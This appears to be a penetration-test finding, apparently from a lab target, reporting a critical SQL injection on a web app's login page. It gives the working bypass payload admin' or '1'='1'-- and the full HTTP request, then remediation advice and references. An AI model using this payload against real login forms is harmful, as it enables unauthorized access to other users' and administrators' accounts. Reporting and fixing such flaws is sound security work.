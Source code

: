 ## Critical - SQL Injection


| Vulnerability Name      | SQL Injection |
| ----------- | ----------- |
| Severity     | Critical      |
| Exploitability   	| Hacker       |
| User Interaction  | Not required       |
| Attack Vector   	| Internet       |
| Affected Scope   	| http://192.168.46.10:3000/#/login       |


**Description**

SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

Username parameter in the login page is vulnerable to SQL injection.

**Impact**

The vulnerability allows to bypass the login page to login as any user including the admin without the password.

**Test Details**

Screenshots
![](screenshots/sql.png)


Payload

```
	admin' or '1'='1'--
```
Request
```
	POST /rest/user/login HTTP/1.1
	Host: 192.168.46.10:3000
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:92.0) Gecko/20100101 Firefox/92.0
	Accept: application/json, text/plain, */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Content-Type: application/json
	Content-Length: 49
	Origin: http://192.168.46.10:3000
	Connection: close
	Referer: http://192.168.46.10:3000/
	Cookie: language=en; welcomebanner_status=dismiss; continueCode=E3OzQenePWoj4zk293aRX8KbBNYEAo9GL5qO1ZDwp6JyVxgQMmrlv7npKLVy

	{"email":"admin' or '1'='1'--","password":"1234"}
	
Response

	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: *
	X-Content-Type-Options: nosniff
	X-Frame-Options: SAMEORIGIN
	Feature-Policy: payment 'self'
	Content-Type: application/json; charset=utf-8
	Content-Length: 831
	ETag: W/"33f-ncvYKqi8+0GW88YIH7i3xTrVgeY"
	Vary: Accept-Encoding
	Date: Fri, 01 Oct 2021 07:07:42 GMT
	Connection: close

	
```

**Remediation** 

- Most instances of SQL injection can be prevented by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.

- Data sanitization. For more info, check references.

**References**

- https://portswigger.net/web-security/sql-injection

- https://blog.sqreen.com/preventing-sql-injection-in-node-js-and-other-vulnerabilities/

- https://javascript.plainenglish.io/sql-injection-attack-in-nodejs-a840893f228b

---

